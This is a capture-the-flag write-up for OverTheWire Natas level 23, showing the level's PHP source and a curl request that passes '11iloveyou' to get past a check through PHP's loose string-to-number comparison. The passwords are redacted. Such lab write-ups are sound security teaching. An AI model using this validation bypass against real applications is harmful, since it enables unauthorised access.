



# Natas — Level 23 → 24

**Category:** OverTheWire / Natas  
**Difficulty:** Medium  
**Date:** 2026-08-28

## Goal

A single password field:

## Solution

The source showed two conditions the submitted `passwd` had to satisfy at once:

    if(array_key_exists("passwd", $_REQUEST)) {
        if(strstr($_REQUEST["passwd"], "iloveyou") && ($_REQUEST["passwd"] > 10)) {
            echo " The credentials for the next level are: ";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        } else {
            echo " Wrong! ";
        }
    }
    // morla / 10111

The two checks look contradictory at first — `passwd` has to *contain* the text `iloveyou`, which makes it a non-numeric string, but it also has to be numerically greater than `10`. PHP's loose `>` comparison solves that for free: when a string starting with digits is compared against a number, PHP casts it to the leading numeric portion and ignores the rest. So `"11iloveyou" > 10` evaluates as `11 > 10`, which is true, while `strstr()` still finds `iloveyou` sitting right there in the same string. Sent it straight through with curl:

    curl -u natas23:<password> "http://natas23.natas.labs.overthewire.org/?passwd=11iloveyou"

    The credentials for the next level are:
    Username: natas24 Password: [REDACTED]

## Result

    Username for natas24: natas24
    Password for natas24: [REDACTED]

## Key Takeaway

PHP's loose comparison (`>`, `==`, etc.) between a string and a number coerces the string to a number first, using only its leading numeric characters — the rest of the string is silently ignored for that comparison. A value can pass a "looks like text" check (`strstr()`) and a "looks like a number" check (`> 10`) at the same time simply by putting digits at the front and the required text after it.
